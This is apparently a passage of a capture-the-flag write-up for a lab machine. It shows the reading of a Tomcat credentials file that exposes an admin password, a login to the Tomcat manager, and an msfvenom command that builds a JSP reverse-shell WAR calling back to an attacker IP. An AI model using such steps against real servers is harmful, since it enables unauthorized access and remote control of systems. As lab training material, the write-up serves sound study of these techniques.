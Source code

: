 ```console
tomcat@ophiuchi:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
        version="1.0">
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

- login: `http://10.10.10.227:8080/manager/`

![image-20240130201047155](./Ophiuchi.assets/image-20240130201047155.png)

![image-20240130201052754](./Ophiuchi.assets/image-20240130201052754.png)

- generate rshell war and deploy it to tomcat

```console
└─╼$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=4321 -f war -o shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: shell.war
```

![image-20240130201347829](./Ophiuchi.assets/image-20240130201347829.png)

